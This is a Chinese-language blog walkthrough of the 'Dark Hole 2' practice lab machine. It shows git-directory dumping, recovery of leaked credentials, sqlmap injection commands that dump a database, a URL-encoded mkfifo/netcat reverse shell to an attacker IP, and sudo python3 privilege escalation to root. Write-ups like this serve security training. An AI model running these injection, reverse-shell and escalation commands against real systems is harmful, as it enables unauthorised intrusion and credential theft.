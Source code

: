 ```yaml
---
layout: post
title: 2025-07-15-Dark-Hole-2
subtitle: 2025-07-15-Dark-Hole-2
date: 2025-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```


ip扫描发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/gfbKzP.png)

扫描端口

![image.png](https://img.ghostliner.top/92tYeS.png)

目录扫描，发现 `.git` 目录，使用 `GitHack` 下载目录

```shell
# 下载GitHack
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
# 执行
python2 GitHack.py http://192.168.163.134/.git/
```

进入到 `.git` 目录查看日志

```shell
git log
```

发现有三个版本，第二版本在`login.php`添加了默认凭证

![image.png](https://img.ghostliner.top/3Kf9f3.png)

回退版本

```shell
git reset --hard HEAD^
# or
git reset --hard a4d900a8d85e8938d3601f3cef113ee293028e10
```

查看 `login.php` 发现用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/jPyGeI.png)

使用用户名密码登录成功，登陆后地址： http://192.168.163.134/dashboard.php?id=1 

查看 `dashboard.php` , 其中 `\155`为8进制，`\x6f`为16进制

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

解码 query，测试mobile参数未发现注入
```mysql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

获取数据库
![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取ssh表中数据
```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

用户名：`jehad` 密码：`fool`

ssh登录成功，查看home目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

发现flag文件

![image.png](https://img.ghostliner.top/6eDntV.png)

获取到数据库用户名密码

![image.png](https://img.ghostliner.top/QtpOyP.png)

`sudo -l` 提权失败
![image.png](https://img.ghostliner.top/pbtTKM.png)

```shell
cat /etc/crontab
```

发现losy定时任务：在本地开放9999端口作为站点

![image.png](https://img.ghostliner.top/ZKmacp.png)

查看 `/opt/web` 目录下文件，可知需要构造get请求，参数为 `cmd`

![image.png](https://img.ghostliner.top/kXEBsn.png)

测试参数

![image.png](https://img.ghostliner.top/tX4umD.png)

尝试反弹shell

<mark>使用nc -e或nc -c都会报错</mark> 

```shell
# mkfifo /tmp/f
curl http://127.0.0.1:9999?cmd=mkfifo%20%2Ftmp%2Ff
# echo "cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f" >/tmp/tt
curl http://127.0.0.1:9999?cmd=echo%20%22cat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20-nv%20192.168.163.132%204444%20%3E%2Ftmp%2Ff%22%20%3E%2Ftmp%2Ftt
# chmod +x /tmp/tt
curl http://127.0.0.1:9999?cmd=chmod%20%2Bx%20%2Ftmp%2Ftt
# /bin/bash /tmp/tt
curl http://127.0.0.1:9999?cmd=%2Fbin%2Fbash%20%2Ftmp%2Ftt
```

反弹成功切换为用户 `losy`

![image.png](https://img.ghostliner.top/bfO3pi.png)

查看 `.bash_history` 获取到losy用户密码：`gang`

![image.png](https://img.ghostliner.top/3VDxKW.png)

SSH登录，`sudo -l` 查看是否能提权

![image.png](https://img.ghostliner.top/p1rd3x.png)

使用python3提权

```shell
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

root提权成功

![image.png](https://img.ghostliner.top/8Dr4PW.png)

获取到最终flag文件
![image.png](https://img.ghostliner.top/ILL2cW.png)
